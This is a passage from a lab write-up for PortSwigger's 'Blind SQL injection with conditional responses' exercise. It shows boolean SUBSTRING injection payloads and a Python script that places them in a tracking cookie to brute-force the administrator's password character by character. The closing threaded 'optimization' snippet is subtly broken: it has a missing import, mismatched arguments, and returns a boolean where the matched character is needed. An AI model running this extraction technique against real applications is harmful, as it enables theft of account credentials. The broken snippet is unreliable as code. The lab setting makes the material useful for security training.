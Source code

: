 `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't`

This does not return the "Welcome back" message, indicating that the injected condition is false, and so the first character of the password is not greater than t.

Eventually, we send the following input, which returns the "Welcome back" message, thereby confirming that the first character of the password is s:

`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's`

We can continue this process to systematically determine the full password for the Administrator user. 

### Lab: Blind SQL injection with conditional responses

To solve the lab, log in as the administrator user. 

For this challenge, I used the following script:
```python
import requests
import string
import time

url = "https://0acb00b604553375807430a400680000.web-security-academy.net/filter?category=Gifts"
chars = string.ascii_letters + string.digits + "!@#$%^&*()_+-=[]{}|;:,.<>?/\\"
password = ""
def test(payload):
    cookies = {
        "TrackingId": f"dDGeQctwLW3eyP9C{payload}",
        "session": "dbtW13tCC5ST8tR1zaUFc9B82NM0JRuP",
    }
    response = requests.get(url, cookies=cookies)
    print(response.status_code)
    return "Welcome" in response.text
for pos in range(1, 30):
    for char in chars:
        #time.sleep(0.1)
        payload = f"' AND (SELECT SUBSTRING(password,{pos},1) FROM users WHERE username='administrator') = '{char}'--"
        if test(payload):
            password += char
            print(password)
```

Consider a optimization by adding this:
```python
def find(pos):
    with ThreadPoolExecutor(max_workers=10) as executor: 
        futures = {executor.submit(test, pos, char): char for char in chars}
        for future in futures:
            result = future.result()
            if result:
                return result
    return None
```